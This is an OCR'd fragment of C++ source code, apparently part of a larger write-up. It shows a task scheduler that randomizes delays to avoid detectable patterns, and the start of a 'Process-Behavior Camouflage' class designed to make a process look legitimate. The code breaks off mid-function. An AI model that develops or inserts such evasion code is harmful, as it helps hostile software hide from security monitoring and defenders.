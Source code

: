 ```cpp
                        }
                    } else {
                        ++it;
                    }
                }
            }
            
            // Execute tasks outside of the lock
            for (const auto& op : operationsToRun) {
                try {
                    op.task();
                } catch (...) {
                    // Silently catch exceptions to prevent crashes
                }
                
                // Add small random delay between operations to avoid
                // simultaneous execution patterns that could be detected
                if (operationsToRun.size() > 1) {
                    std::uniform_int_distribution<int> microDelayDist(1, 10);
                    std::this_thread::sleep_for(std::chrono::milliseconds(microDelayDist(rng)));
                }
            }
            
            // Sleep for a short time to avoid busy waiting
            // Vary the sleep time to avoid regular patterns
            std::uniform_int_distribution<int> sleepDist(5, 15);
            std::this_thread::sleep_for(std::chrono::milliseconds(sleepDist(rng)));
        }
    }
};
```

### 4.2 Process-Behavior Camouflage

```cpp
// Make process behavior appear legitimate by mimicking normal application patterns
class ProcessBehaviorCamouflage {
private:
    TimeDistributedProcessor scheduler;
    std::atomic<bool> active;
    
    // Store original values to restore later
    struct OriginalValues {
        int cpuUsagePattern;
        int ioPattern;
        bool powerSavingEnabled;
    } original;
    
public:
    ProcessBehaviorCamouflage() : active(false) {
        // Store original settings
        original.cpuUsagePattern = GetProcessorUsagePattern();
        original.ioPattern = GetIOPattern();
        original.powerSavingEnabled = IsProcessPowerSavingEnabled();
    }
    
    void Start() {
        if (active.exchange(true)) return; // Already active
        
        scheduler.Start();
        
        // Schedule various camouflage activities
        
```